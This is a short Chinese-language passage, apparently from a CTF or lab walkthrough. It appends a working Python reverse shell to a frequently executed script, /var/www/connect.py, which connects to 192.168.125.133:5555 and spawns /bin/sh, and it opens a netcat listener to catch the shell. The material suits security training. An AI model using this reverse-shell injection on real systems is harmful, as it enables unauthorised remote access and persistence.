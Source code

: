 ![image-20230509160008802](./assets/image-20230509160008802.png)



```
cat  /var/www/connect.py
```



```
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

写入 python 反弹shell

```py
echo 'import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.125.133",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])'  >>/var/www/connect.py
```



kali 开启监听（最多等待1分钟 即可收到反弹 shell ）：

```
nc -lvnp 5555
```

![image-20230509162313253](./assets/image-20230509162313253.png)

